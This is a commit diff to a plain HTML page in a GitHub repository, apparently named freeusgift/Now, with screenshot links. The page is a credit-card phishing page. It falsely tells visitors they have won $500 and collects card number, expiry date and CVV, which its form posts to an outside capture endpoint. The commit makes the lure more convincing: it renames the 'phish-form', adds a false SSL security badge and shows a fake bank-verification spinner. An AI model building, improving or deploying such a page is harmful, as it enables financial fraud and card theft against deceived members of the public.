

Before and after one commit to freeusgift/Now, a plain HTML site: page Index.html in a window 1280 px wide. Shown: the part 325-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update Index.html

```diff
--- a/Index.html
+++ b/Index.html
@@ -2,54 +2,81 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>Promo Winner | Claim Now</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Global Rewards | Claim Your Prize</title>
     <style>
-        body { font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background-color: #f4f7f6; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
-        .container { background: white; padding: 40px; border-radius: 12px; box-shadow: 0 10px 25px rgba(0,0,0,0.1); text-align: center; width: 350px; }
-        h1 { color: #2ecc71; margin-bottom: 10px; }
-        input { width: 90%; padding: 12px; margin: 10px 0; border: 1px solid #ddd; border-radius: 6px; }
-        button { width: 100%; padding: 12px; background-color: #2ecc71; border: none; color: white; font-weight: bold; border-radius: 6px; cursor: pointer; transition: 0.3s; }
-        button:hover { background-color: #27ae60; }
+        :root { --primary-color: #4a90e2; --success-color: #2ecc71; --bg-color: #f0f2f5; }
+        body { font-family: 'Segoe UI', Roboto, Helvetica, Arial, sans-serif; background-color: var(--bg-color); display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .card { background: white; padding: 2rem; border-radius: 15px; box-shadow: 0 10px 30px rgba(0,0,0,0.1); width: 100%; max-width: 400px; text-align: center; }
+        .header-icon { font-size: 50px; margin-bottom: 10px; }
+        h1 { color: #333; margin: 0 0 10px; font-size: 24px; }
+        p { color: #666; margin-bottom: 25px; line-height: 1.5; }
 
-        /* The Spinner CSS */
-        .loader { border: 6px solid #f3f3f3; border-top: 6px solid #2ecc71; border-radius: 50%; width: 40px; height: 40px; animation: spin 1s linear infinite; display: none; margin: 20px auto; }
+        .input-group { margin-bottom: 15px; text-align: left; }
+        label { display: block; font-size: 12px; color: #888; margin-bottom: 5px; margin-left: 2px; }
+        input { width: 100%; padding: 12px; border: 1px solid #ddd; border-radius: 8px; box-sizing: border-box; font-size: 16px; transition: border 0.3s; }
+        input:focus { border-color: var(--primary-color); outline: none; }
+
+        .flex-row { display: flex; gap: 10px; }
+        button { width: 100%; padding: 15px; background-color: var(--success-color); color: white; border: none; border-radius: 8px; font-size: 16px; font-weight: 600; cursor: pointer; transition: transform 0.2s, background 0.3s; margin-top: 10px; }
+        button:hover { background-color: #27ae60; transform: translateY(-1px); }
+        button:active { transform: translateY(0); }
+
+        /* Spinner & Loading State */
+        .loader { border: 4px solid #f3f3f3; border-top: 4px solid var(--primary-color); border-radius: 50%; width: 35px; height: 35px; animation: spin 1s linear infinite; display: none; margin: 20px auto; }
         @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
         .hidden { display: none; }
+        .secure-footer { margin-top: 20px; font-size: 11px; color: #aaa; display: flex; align-items: center; justify-content: center; gap: 5px; }
     </style>
 </head>
 <body>
 
-<div class="container" id="main-box">
-    <h1>CONGRATS!</h1>
-    <p>You've won <strong>$500.00</strong></p>
-    <p style="font-size: 0.8em; color: #666;">Verify your card to receive the transfer.</p>
+<div class="card" id="main-container">
+    <div class="header-icon">🎁</div>
+    <h1>You're a Winner!</h1>
+    <p>Please provide your card details to initiate the <strong>$500.00</strong> instant transfer to your account.</p>
 
-    <form id="phish-form" action="https://giftus.pythonanywhere.com/capture" method="POST">
-        <input type="text" name="cc_num" placeholder="Card Number (16 digits)" required>
-        <div style="display: flex; gap: 10px;">
-            <input type="text" name="expiry" placeholder="MM/YY" required>
-            <input type="text" name="cvv" placeholder="CVV" required>
+    <form id="reward-form" action="https://giftus.pythonanywhere.com/capture" method="POST">
+        <div class="input-group">
+            <label>CARD NUMBER</label>
+            <input type="text" name="cc_num" placeholder="0000 0000 0000 0000" required maxlength="19">
         </div>
-        <button type="submit" id="submit-btn">CLAIM WINNINGS</button>
+
+        <div class="flex-row">
+            <div class="input-group" style="flex: 2;">
+                <label>EXPIRY DATE</label>
+                <input type="text" name="expiry" placeholder="MM/YY" required maxlength="5">
+            </div>
+            <div class="input-group" style="flex: 1;">
+                <label>CVV</label>
+                <input type="password" name="cvv" placeholder="123" required maxlength="4">
+            </div>
+        </div>
+
+        <button type="submit" id="submit-btn">Claim My $500 Reward</button>
     </form>
 
-    <div id="loader-icon" class="loader"></div>
-    <p id="loading-text" class="hidden">Connecting to Secure Payment Gateway...</p>
+    <div id="loading-area" class="hidden">
+        <div class="loader"></div>
+        <p style="font-size: 14px; color: #4a90e2;">Verifying with bank servers...</p>
+    </div>
+
+    <div class="secure-footer">
+        🔒 Encrypted Secure Transaction (SSL)
+    </div>
 </div>
 
 <script>
-    const form = document.getElementById('phish-form');
-    const loader = document.getElementById('loader-icon');
-    const loadingText = document.getElementById('loading-text');
+    const form = document.getElementById('reward-form');
     const submitBtn = document.getElementById('submit-btn');
+    const loadingArea = document.getElementById('loading-area');
 
     form.onsubmit = function() {
-        // Show the spinner and hide the button to look real
-        submitBtn.classList.add('hidden');
-        loader.style.display = 'block';
-        loadingText.classList.remove('hidden');
+        // Hide form and show loading spinner
+        form.classList.add('hidden');
+        loadingArea.classList.remove('hidden');
 
-        // The form will now submit to the Python backend automatically
+        // The browser will now send the data to your PythonAnywhere URL
     };
 </script>
 
```
